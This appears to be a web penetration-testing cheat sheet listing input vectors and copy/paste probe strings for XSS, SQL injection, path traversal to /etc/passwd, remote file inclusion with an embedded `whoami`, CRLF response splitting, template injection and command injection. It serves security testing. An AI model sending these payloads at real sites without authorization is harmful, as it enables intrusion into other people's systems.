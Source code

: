**VECTORS:**

* INPUT FORMS
* GET/POST PARAMS
* URI/REST STRUCTURE
* COOKIES
* HEADERS

**SEARCH STRINGS:**

Just some helpful regex terms to search for passively using Burpsuite or any other web proxy...

fname\|phone\|id\|org\_name\|name\|email

**QUICK ATTACK STRINGS:**

Not a complete list by any means, but when you're manually testing and walking through sites and need a quick copy/paste, this can come in handy...

Company  
First Last  
username  
username@mailinator.com  
Password123$  
+1416312384  
google.com  
[https://google.com](https://google.com)  
//google.com  
.google.com  
[https://google.com/.injectx/rfi\_vuln.txt](https://google.com/.injectx/rfi_vuln.txt)  
[https://google.com/.injectx/rfi\_vuln.txt?\`whoami\`](https://google.com/.injectx/rfi_vuln.txt?%60whoami%60)  
[https://google.com/.injectx/rfi\_vuln.txt%00.png](https://google.com/.injectx/rfi_vuln.txt%00.png)  
[https://google.com/.injectx/rfi\_vuln.txt%00.html](https://google.com/.injectx/rfi_vuln.txt%00.html)  
12188  
01/01/1979  
4242424242424242  
INJECTX  
'&gt;"&gt;&lt;/INJECTX&gt;\(1\)  
javascript:alert\(1\)//  
"&gt;&lt;img/onload=alert\(1\)&gt;' --  
"&gt;&lt;/textarea&gt;&lt;img/onload=alert\(1\)&gt;' --  
INJECTX'&gt;"&gt;&lt;img/src="https://google.com/.injectx/xss\_vuln.png"&gt;&lt;/img&gt;  
'&gt;"&gt;&lt;iframe/onload=alert\(1\)&gt;&lt;/iframe&gt;  
INJECTX'&gt;"&gt;&lt;ScRiPt&gt;confirm\(1\)&lt;ScRiPt&gt;  
"&gt;&lt;/textarea&gt;&lt;img/onload=alert\(1\)&gt;' -- // INJECTX &lt;!--  
"&gt;&lt;img/onload=alert\(1\)&gt;' -- // INJECTX &lt;!--  
INJECTX'"&gt;&lt;h1&gt;X&lt;!--  
INJECTX"&gt;&lt;h1&gt;X  
en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A  
%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A  
../../../../../../../../../../../etc/passwd%00  
{{4+4}}  
sleep 5; sleep 5 \|\| sleep 5 \| sleep 5 & sleep 5 && sleep 5  
admin" or "1"="1"--  
admin' or '1'='1'--  
INJECTX%0a%0d%00
